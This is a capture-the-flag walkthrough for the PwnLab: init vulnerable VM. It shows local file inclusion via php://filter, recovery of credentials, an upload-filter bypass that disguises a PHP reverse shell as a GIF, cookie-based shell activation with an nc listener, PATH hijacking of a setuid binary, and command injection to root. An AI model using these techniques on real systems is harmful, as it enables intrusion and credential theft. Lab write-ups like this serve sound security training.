

#PwnLab: init
https://www.vulnhub.com/entry/pwnlab-init,158/
This machine isn't easy, ignore the description by the creator.
0) Find the VM's IP
To find your VM's IP address, set your VM to ‘bridged’ so that it gets assigned an IP on your internal network and then use netdiscover to scan your network: netdiscover -r <internal network>/24
netdiscover -r 192.168.1.1/24
192.168.1.184 is my init box.
Take a snapshot of the VM at this point, just to be safe.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.184
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/pwnlabInit# nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.158
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-11 12:00 BST
Nmap scan report for pwnlab.lan (192.168.1.158)
Host is up (0.00068s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100024 1 39426/tcp status
|_ 100024 1 59735/udp status
3306/tcp open mysql MySQL 5.5.47-0+deb8u1
| mysql-info:
| Protocol: 10
| Version: 5.5.47-0+deb8u1
| Thread ID: 38
| Capabilities flags: 63487
| Some Capabilities: Speaks41ProtocolOld, Support41Auth, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsTransactions, InteractiveClient, FoundRows, ODBCClient, LongPassword, ConnectWithDatabase, IgnoreSigpipes, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
| Status: Autocommit
| Salt: 5#K4am}MJjY^LABg^$7%
|_ Auth Plugin Name: 88
MAC Address: 00:0C:29:F6:60:21 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.39 seconds
80/http, with a title of PwnLab Intranet Image Hosting, is interesting.
3306/mysql we should note down for later.
2) base64 LFI
The two scans I found worth doing were nikto and skipfish.
Nikto found /config.php whilst skipfish found a local file inclusion vuln.
http://192.168.1.158/?page=./config.php - but testing it out, this doesn't produce anything.
I don't think there's any way you're supposed to know what to do here apart from trial and error of local file inclusion vulns.
This fellow helped.
https://highon.coffee/blog/lfi-cheat-sheet/
What we need is the PHP wrapper php://filter:
.php files, when accessed via local file inclusion, execute rather than printing out their contents to the screen. To circumvent this, you can base64 encode the .php file to prevent it from executing.
http://192.168.1.158/?page=php://filter/convert.base64-encode/resource=config
root@kali:~/ctf/pwnlabInit/80http# echo "PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8" | base64 -d
<?php
$server = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?base64: invalid input
We get back what appears to be a mysql login. Log in and get the goods.
root@kali:~/ctf/pwnlabInit/80http# mysql -u root -p -h 192.168.1.158
Enter password: H4u%QJ_H99
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MySQL connection id is 762
Server version: 5.5.47-0+deb8u1 (Debian)
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MySQL [(none)]> show databases;
+--------------------+
| Database |
+--------------------+
| information_schema |
| Users |
+--------------------+
2 rows in set (0.00 sec)
MySQL [(none)]> use Users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users |
+-----------------+
1 row in set (0.00 sec)
MySQL [Users]> show FIELDS from users;
+-------+-------------+------+-----+---------+-------+
| Field | Type | Null | Key | Default | Extra |
+-------+-------------+------+-----+---------+-------+
| user | varchar(30) | YES | | NULL | |
| pass | varchar(30) | YES | | NULL | |
+-------+-------------+------+-----+---------+-------+
2 rows in set (0.00 sec)
MySQL [Users]> select * from users;
+------+------------------+
| user | pass |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.00 sec)
MySQL [Users]>
And base64 decode them.
root@kali:~/ctf/pwnlabInit/80http# echo "Sld6WHVCSkpOeQ==" | base64 -d
JWzXuBJJNy
root@kali:~/ctf/pwnlabInit/80http# echo "U0lmZHNURW42SQ==" | base64 -d
SIfdsTEn6I
root@kali:~/ctf/pwnlabInit/80http# echo "aVN2NVltMkdSbw==" | base64 -d
iSv5Ym2GRo
3) upload.php
Log in (I logged in as kent) and go to /upload.php.
Try to upload a shell and you'll get an error.
Instead, read the /upload.php file using the local file inclusion vuln from earlier to figure out how to bypass the upload filter.
http://192.168.1.158/?page=php://filter/convert.base64-encode/resource=upload
I put the base64 string into a nano file because it was so large.
root@kali:~/ctf/pwnlabInit/80http# nano base64upload.txt
root@kali:~/ctf/pwnlabInit/80http# base64 -d base64upload.txt
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
<body>
<form action='' method='post' enctype='multipart/form-data'>
<input type='file' name='file' id='file' />
<input type='submit' name='submit' value='Upload'/>
</form>
</body>
</html>
<?php
if(isset($_POST['submit'])) {
if ($_FILES['file']['error'] <= 0) {
$filename = $_FILES['file']['name'];
$filetype = $_FILES['file']['type'];
$uploaddir = 'upload/';
$file_ext = strrchr($filename, '.');
$imageinfo = getimagesize($_FILES['file']['tmp_name']);
$whitelist = array(".jpg",".jpeg",".gif",".png");
if (!(in_array($file_ext, $whitelist))) {
die('Not allowed extension, please upload images only.');
}
if(strpos($filetype,'image') === false) {
die('Error 001');
}
if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
die('Error 002');
}
if(substr_count($filetype, '/')>1){
die('Error 003');
}
$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;
if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
echo "<img src=\"".$uploadfile."\"><br />";
} else {
die('Error 4');
}
}
}
?>
root@kali:~/ctf/pwnlabInit/80http#
There are 3 useful sections in here defining what our uploaded file must be.
1. The file extension needs to be .jpg, .jpeg, .gif or .png
$whitelist = array(".jpg",".jpeg",".gif",".png");
if (!(in_array($file_ext, $whitelist))) {
die('Not allowed extension, please upload images only.');
}
2. The contents of the file has to actually be an image (I think)
It'll read the header of what we upload to check that the file type is an image
$filetype = $_FILES['file']['type'];
if(strpos($filetype,'image') === false) {
die('Error 001');
}
3. And the Content-Type header in the POST request must be image/jpeg, image/jpg, image/gif or image/png
if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
die('Error 002');
die('Not allowed extension, please upload images only.');
That's enough info to bypass the upload filter.
First, prep the shell and rename it to a .gif
root@kali:~/ctf/pwnlabInit/80http# cp /usr/share/webshells/php/php-reverse-shell.php .
root@kali:~/ctf/pwnlabInit/80http# nano php-reverse-shell.php
...
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.183'; // CHANGE THIS
$port = 9001; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
...
root@kali:~/ctf/pwnlabInit/80http# mv php-reverse-shell.php phprshell.gif
Navigate to http://192.168.1.158/?page=upload
1. F12 to open developer tools in Firefox > navigate to the Network tab
2. Capture a POST request by uploading your php shell on the website
3. Now we have a POST request that we can edit. Select the POST request and click ‘Edit and Resend’
4. Scroll down to the ‘Request Body’ and edit it.
The shell's filename should end in .gif
The Content-Type should be image/gif
And your php script should start with the header of a gif file - GIF89a;
Hit send (top right)

Your file should now be in /upload as a unique string - http://192.168.1.158/upload/
If not, something has gone wrong :shrug:
Try again, this stuff is weird sometimes. I had multiple tries.
4) Activating the shell
This is a pretty crappy part of the ctf to be honest.
No hint or clue and a complete abandonment of logical next-steps. This is a ctf not a pentest, which is why i think this part is of poor design.
If you try activate the shell you uploaded at /upload, you can't.
You have to use a 2nd local file include vuln found in index.php.
http://192.168.1.158/?page=php://filter/convert.base64-encode/resource=index
root@kali:~/ctf/pwnlabInit/80http# echo "PD9waHANCi8vTXVsdGlsaW5ndWFsLiBOb3QgaW1wbGVtZW50ZWQgeWV0Lg0KLy9zZXRjb29raWUoImxhbmciLCJlbi5sYW5nLnBocCIpOw0KaWYgKGlzc2V0KCRfQ09PS0lFWydsYW5nJ10pKQ0Kew0KCWluY2x1ZGUoImxhbmcvIi4kX0NPT0tJRVsnbGFuZyddKTsNCn0NCi8vIE5vdCBpbXBsZW1lbnRlZCB5ZXQuDQo/Pg0KPGh0bWw+DQo8aGVhZD4NCjx0aXRsZT5Qd25MYWIgSW50cmFuZXQgSW1hZ2UgSG9zdGluZzwvdGl0bGU+DQo8L2hlYWQ+DQo8Ym9keT4NCjxjZW50ZXI+DQo8aW1nIHNyYz0iaW1hZ2VzL3B3bmxhYi5wbmciPjxiciAvPg0KWyA8YSBocmVmPSIvIj5Ib21lPC9hPiBdIFsgPGEgaHJlZj0iP3BhZ2U9bG9naW4iPkxvZ2luPC9hPiBdIFsgPGEgaHJlZj0iP3BhZ2U9dXBsb2FkIj5VcGxvYWQ8L2E+IF0NCjxoci8+PGJyLz4NCjw/cGhwDQoJaWYgKGlzc2V0KCRfR0VUWydwYWdlJ10pKQ0KCXsNCgkJaW5jbHVkZSgkX0dFVFsncGFnZSddLiIucGhwIik7DQoJfQ0KCWVsc2UNCgl7DQoJCWVjaG8gIlVzZSB0aGlzIHNlcnZlciB0byB1cGxvYWQgYW5kIHNoYXJlIGltYWdlIGZpbGVzIGluc2lkZSB0aGUgaW50cmFuZXQiOw0KCX0NCj8+DQo8L2NlbnRlcj4NCjwvYm9keT4NCjwvaHRtbD4=" | base64 -d
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
if (isset($_GET['page']))
{
include($_GET['page'].".php");
}
else
{
echo "Use this server to upload and share image files inside the intranet";
}
?>
</center>
</body>
</html>
There's a local file inclusion vulnerability in the language cookie for index.php.
if (isset($_COOKIE['lang']))
{
include("lang/".$_COOKIE['lang']);
}
Start you listener
root@kali:~/ctf/pwnlabInit/80http# nc -lvnp 9001
listening on [any] 9001 ...
To activate the shell:
1. F12 to open developer tools in firefox > navigate to the Network tab
2. Visit http://192.168.1.158/index.php and capture a GET request
3. Select the GET request, click ‘Edit and Resend’ and set a lang= cookie to your uploaded shell in the ‘Request Headers'
Host: 192.168.1.158
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=../upload/dc50511dadc1c342f77e6602df3ae5c7.gif
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Keep trying until you get it, I couldn't reliably do it. You'll get a callback on your listener at some point
root@kali:~/ctf/pwnlabInit/80http# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.183] from (UNKNOWN) [192.168.1.158] 57432
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
11:44:07 up 4:46, 0 users, load average: 0.24, 0.13, 0.09
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
5) www-data -> kane -> mike
Upgrade your shell and su to kane. Have a look at kane's files.
msgmike is interesting
$ which python
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@pwnlab:/tmp$ ls -alh /home
total 24K
drwxr-xr-x 6 root root 4.0K Mar 17 2016 .
drwxr-xr-x 21 root root 4.0K Mar 17 2016 ..
drwxr-x--- 2 john john 4.0K Mar 17 2016 john
drwxr-x--- 2 kane kane 4.0K Mar 17 2016 kane
drwxr-x--- 2 kent kent 4.0K Mar 17 2016 kent
drwxr-x--- 2 mike mike 4.0K Mar 17 2016 mike
www-data@pwnlab:/tmp$ su kane
Password: iSv5Ym2GRo
kane@pwnlab:/tmp$ cd ~
kane@pwnlab:~$ ls
msgmike
kane@pwnlab:~$ file msgmike
msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
kane@pwnlab:~$ ./msgmike
cat: /home/mike/msg.txt: No such file or directory
Looks like the msgmike binary tries to read /home/mike/msg.txt
Checking the strings for the binary, it's using cat but not by it's absolute path - at /bin/cat
kane@pwnlab:~$ strings msgmike
...
cat /home/mike/msg.txt
...
This means we can make our own cat command using the PATH variable.
A user's PATH variable tells the shell where to look for commands
By putting . in your PATH, the shell will check the current directory for the binary first, and afterwards check everywhere else.
So first we edit our path to include . (at the start)
export PATH=.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
Second we move to /tmp and write our own cat command (spawning a shell)
cd /tmp
echo "/bin/sh" > cat
And lastly we execute our custom cat command as mike using the msgmike binary to get a shell as mike.
/home/kane/msgmike
kane@pwnlab:~$ export PATH=.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
kane@pwnlab:~$ cd /tmp
kane@pwnlab:/tmp$ echo "/bin/sh" > cat
kane@pwnlab:/tmp$ ls -alh
total 44K
drwxrwxrwt 7 root root 4.0K Apr 11 12:34 .
drwxr-xr-x 21 root root 4.0K Mar 17 2016 ..
-rw-rw-rw- 1 kane kane 8 Apr 11 12:34 cat
-rw-r--r-- 1 www-data www-data 5.4K Apr 11 11:31 dc50511dadc1c342f77e6602df3ae5c7.gif
...
kane@pwnlab:/tmp$ chmod 777 cat
kane@pwnlab:/tmp$ /home/kane/msgmike
$ id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
$
6) mike -> root
Check /home/mike, there's a similar looking binary.
Read the strings of msg2root again.
$ cd /home/mike
$ ls -alh
total 28K
drwxr-x--- 2 mike mike 4.0K Mar 17 2016 .
drwxr-xr-x 6 root root 4.0K Mar 17 2016 ..
-rw-r--r-- 1 mike mike 220 Mar 17 2016 .bash_logout
-rw-r--r-- 1 mike mike 3.5K Mar 17 2016 .bashrc
-rwsr-sr-x 1 root root 5.3K Mar 17 2016 msg2root
-rw-r--r-- 1 mike mike 675 Mar 17 2016 .profile
$ ./msg2root
Message for root: hey
$ file msg2root
msg2root: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=60bf769f8fbbfd406c047f698b55d2668fae14d3, not stripped
$ strings msg2root
...
Message for root:
/bin/echo %s >> /root/messages.txt
...
This time it's using echo but by its absolute path.
However, it's taking strings from the user - %s
In this case, you can just terminte the echo command with ; and run a shell.
$ ./msg2root
./msg2root
Message for root: ; /bin/sh
; /bin/sh
# id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
# cd /root
# ls
flag.txt messages.txt